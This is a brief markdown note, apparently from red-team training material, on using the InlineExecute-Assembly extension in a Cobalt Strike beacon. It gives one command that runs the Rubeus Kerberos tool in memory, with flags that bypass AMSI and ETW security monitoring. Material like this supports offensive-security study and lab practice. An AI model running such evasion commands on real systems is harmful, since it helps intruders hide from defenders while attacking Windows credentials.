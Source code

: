 # Inline Execution

*Load the CNA located in C:\Tools\InlineExecute-Assembly.*

- Use InlineExecute-Assembly to execute Rubeus

```
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe --assemblyargs klist --amsi --etw --appdomain SharedDomain --pipe dotnet-diagnostic-1337
```
